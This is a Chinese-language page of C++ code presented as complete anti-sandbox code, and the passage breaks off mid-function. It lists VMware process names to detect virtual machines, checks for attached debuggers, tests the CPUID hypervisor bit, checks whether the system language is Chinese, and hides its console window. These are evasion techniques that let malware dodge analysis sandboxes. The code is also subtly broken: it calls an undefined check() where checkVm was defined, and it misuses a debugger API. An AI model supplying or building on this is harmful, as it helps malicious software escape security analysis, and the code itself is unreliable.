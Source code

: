 ### 延迟执行，检测虚拟机

```
int checkVm(char* name) {
const char* list[4] = { "vmtoolsd.exe","vmwaretrat.exe","vmwareuser.exe","vmacthlp.exe" };
for (int i = 0; i < 4; i++) {
if (strcmp(name, list[i]) == 0)
return -1;
 }
return 0;
}
bool CheckProcess() {
PROCESSENTRY32 pe32;
pe32.dwSize = sizeof(pe32);
HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
BOOL bResult = Process32First(hProcessSnap, &pe32);
while (bResult) {
char ss_Name[MAX_PATH] = { 0 };
WideCharToMultiByte(CP_ACP, 0, pe32.szExeFile, -1, ss_Name, sizeof(ss_Name),
NULL, NULL);
//printf("%s\n", ss_Name);
if (check(ss_Name) == -1)
return false;
bResult = Process32Next(hProcessSnap, &pe32);
 }
return true;
}
```

### 完整的反沙箱代码

```
#include <windows.h>
#include <iostream>
#include <intrin.h>
#include <Iphlpapi.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <Pdh.h>
#include <string>
#pragma comment(lib, "IPHLPAPI.lib")
#pragma comment(lib, "Psapi.lib")
#pragma comment(lib, "Pdh.lib")
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

// 是否出于调试器中
bool isDebuggerPresent() {
    return IsDebuggerPresent() || CheckRemoteDebuggerPresent(GetCurrentProcess(), nullptr);
}
// 检测cpu是否支持虚拟化
bool checkCpuVirtualization() {
    int cpuInfo[4];
    __cpuid(cpuInfo, 1);
    return (cpuInfo[2] & (1 << 31)) != 0;
}
// 检测语言是否是非中文
bool checkLan() {
    LANGID langId = GetUserDefaultUILanguage();
    if (PRIMARYLANGID(langId) == LANG_CHINESE)
    {
        return false;
    }
    else
    {
```
